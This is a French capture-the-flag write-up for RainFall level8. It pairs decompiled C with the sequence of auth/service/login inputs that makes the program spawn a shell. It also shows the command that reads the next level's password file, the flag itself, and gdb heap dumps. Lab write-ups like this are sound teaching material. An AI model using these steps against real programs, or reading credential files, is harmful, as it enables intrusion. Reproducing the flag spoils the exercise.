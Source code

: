 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=c81dd233-7ccb-4ab8-8074-27857c96eb14

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char input[128];

  while (1)
  {
    printf("%p, %p \n", auth, (const void *)service);

    if (!fgets(input, 128, stdin)) // => getline
      break;

    if (!memcmp(input, "auth ", 5))
    {
      auth = (char *)malloc(16);
      *auth = 0;
      if (strlen(&input[5]) <= 30)
        strcpy(auth, &input[5]);
    }

    if (!memcmp(input, "reset", 5))
      free(auth);

    if (!memcmp(input, "service", 6))
      service = (char *) strdup(&input[7]);

    if (!memcmp(input, "login", 5))
    {
      if (((char *) auth)[32])
        system("/bin/sh");
      else
        fwrite("Password:\n", 1, 10, stdout);
    }
  }
  return 0;
}
```

# Explication

Le but de cet exo est de faire en sorte que la valeur de la variable service colle avec `auth[32]`
pour retourner vrai dans la condition de la commande `login`. Etant donné que la commande `auth` est
limitée à 30 caractères, on doit utiliser `service` en deuxième (après que auth soit initialisé)
pour définir `((char *)auth)[32]`.

`service` va écrire par dessus la fin de `auth`, c'est comme ça qu'on arrive à écrire à `auth[32]`.

Donc :

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth my name is guillaume
0x804a008, (nil)
service j'espere reussir du premier coup!
0x804a008, 0x804a018
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

```
(gdb) x/21c auth
0x804a008:    109 'm'    121 'y'    32 ' '    110 'n'    97 'a'    109 'm'    101 'e'    32 ' '
0x804a010:    105 'i'    115 's'    32 ' '    103 'g'    117 'u'   105 'i'    108 'l'    108 'l'
0x804a018:    97 'a'    117 'u'    109 'm'    101 'e'    10 '\n'
```

```
(gdb) x/21c auth
0x804a008:    109 'm'    121 'y'    32 ' '    110 'n'    97 'a'    109 'm'    101 'e'    32 ' '
0x804a010:    105 'i'    115 's'    32 ' '    103 'g'    41 ')'    0 '\0'     0 '\0'     0 '\0'
0x804a018:    32 ' '    106 'j'    39 '\''    101 'e'    115 's'
```

On a donc réussi à lancer shell et obtenir le flag :
```
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
